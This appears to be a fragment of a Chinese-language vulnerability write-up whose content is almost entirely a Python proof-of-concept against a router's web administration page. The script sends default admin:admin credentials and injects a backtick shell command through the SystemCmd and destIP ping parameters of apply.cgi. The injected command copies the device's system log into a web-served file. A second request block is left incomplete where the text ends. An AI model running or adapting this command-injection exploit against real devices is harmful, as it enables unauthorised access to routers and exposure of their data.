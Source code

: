 ![](vx_images/418736126622220.png)

#### 源码：
```
import requests

burp0_url = "http://192.168.1.1:80/apply.cgi?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=CN&SystemCmd=ping+-c+5+1.1.1.1%60cat+..%2Ftmp%2Fsyslog.log+%3E+a.asp%60&firmver=3.0.0.4&cmdMethod=ping&destIP=1.1.1.1%60cat+..%2Ftmp%2Fsyslog.log+%3E+a.asp%60&pingCNT=5"
burp0_cookies = {"notification_history": "0,0,0,0,0,0,0,0", "hwaddr": "52:54:00:12:34:57", "clock_type": "1"}
burp0_headers = {"Authorization": "Basic YWRtaW46YWRtaW4=", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://192.168.1.1/Main_Analysis_Content.asp", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)


#import requests

burp0_url = "http://192.168.1.1:80/Main_Analysis_Content.asp"
burp0_cookies = {"notification_history": "0,0,0,0,0,0,0,0", "hwaddr": "52:54:00:12:34:57", "clock_type": "1"}
```
